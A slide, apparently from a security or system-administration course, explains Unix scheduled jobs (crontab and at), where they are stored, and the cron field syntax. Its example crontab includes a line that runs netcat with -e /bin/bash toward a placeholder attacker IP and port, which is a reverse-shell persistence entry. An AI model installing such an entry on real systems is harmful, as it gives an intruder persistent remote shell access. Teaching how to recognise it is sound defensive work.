

# Scheduled Jobs
crontab
System-wide jobs installed by modify /etc/crontab file
Locations to Less /etc/crontab, ls /etc/cron.∗ (daily, hourly, weekly, monthly)
at jobs
Executes commands at a specific time
Not for recurring tasks
/etc/var/at/jobs, /var/spool/cron/atjobs

36 2   *   *  7 lion1  netcat –e  /bin/bash <attacker ip> <port>
*    *   *   *  *  root   /scripts/script.sh

Command to execute
Day of week (0 - 7)
	0 / 7 = Sunday
Month (1 - 12)
Day of month (1 - 31)
Hour (0 - 23)
Minute (0 - 59)